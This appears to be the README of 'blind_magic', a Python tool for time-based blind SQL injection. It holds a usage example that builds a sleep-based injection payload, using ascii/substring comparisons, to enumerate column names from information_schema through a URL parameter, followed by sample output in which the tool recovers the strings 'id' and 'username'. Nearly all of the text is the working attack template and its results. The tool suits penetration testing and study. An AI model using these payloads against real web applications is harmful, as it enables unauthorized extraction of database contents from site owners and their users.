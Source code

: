# blind_magic 0.1.3  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 4 loop variables l1 to l4 {l1} {l2} {l3} {l4}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
b = Blind_magic()  
b.set_l1(1,10)  
b.set_l2(0,1)  
b.url = "http://localhost/test_site/?q="  
b.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
b.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
b.query = "Select column_name from information_schema.columns where table_name='staffs' limit {l2},1"  
b.run()  
print b.result  
  
[START]: Welcome to Bl1nd_m4g1c  
[INFO]: Time-based mode selected, time delay for compare is 1s, please check your sleep/wait_for value  
[STATUS] l4 now:0/0  
[STATUS] l3 now:0/0  
[STATUS] l2 now:0/1  
[STATUS] l1 now:1/10  
[INFO]: Character founded:i  
[STATUS] l1 now:2/10  
[INFO]: Character founded:d  
[STATUS] l1 now:3/10  
[INFO]: End of string, l1 gonna be reset  
[OK]: New result is:id  
[STATUS] l2 now:1/1  
[STATUS] l1 now:1/10  
[INFO]: Character founded:u  
[STATUS] l1 now:2/10  
[INFO]: Character founded:s  
[STATUS] l1 now:3/10  
[INFO]: Character founded:e  
[STATUS] l1 now:4/10  
[INFO]: Character founded:r  
[STATUS] l1 now:5/10  
[INFO]: Character founded:n  
[STATUS] l1 now:6/10  
[INFO]: Character founded:a  
[STATUS] l1 now:7/10  
[INFO]: Character founded:m  
[STATUS] l1 now:8/10  
[INFO]: Character founded:e  
[STATUS] l1 now:9/10  
[INFO]: End of string, l1 gonna be reset  
[OK]: New result is:username  
[FINISH]: Total time:105s  
[FINISH]: Bl1nd_m4g1c has done her job, go http://github.com/truongtn/blind_magic  
['id', 'username']  